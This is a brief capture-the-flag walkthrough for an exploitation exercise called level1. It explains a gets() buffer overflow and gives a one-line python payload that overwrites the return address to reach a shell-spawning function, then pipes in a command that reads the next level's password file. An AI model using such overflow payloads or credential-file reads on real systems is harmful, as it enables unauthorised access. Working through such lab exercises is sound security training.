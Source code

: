# Walkthrough

## Step 1: Disassembling the executable

see source.c

We saw that we're calling gets() on a buffer[0x40], that lead to a buffer overflow, rewriting the eip we can jump on another function of the binary 'run' that launch a shell

```
(python -c "print('A'* 0x40 + 'B' * 12 + '\x44\x84\x04\x08')"; echo "cat /home/user/level2/.pass") | ./level1
```
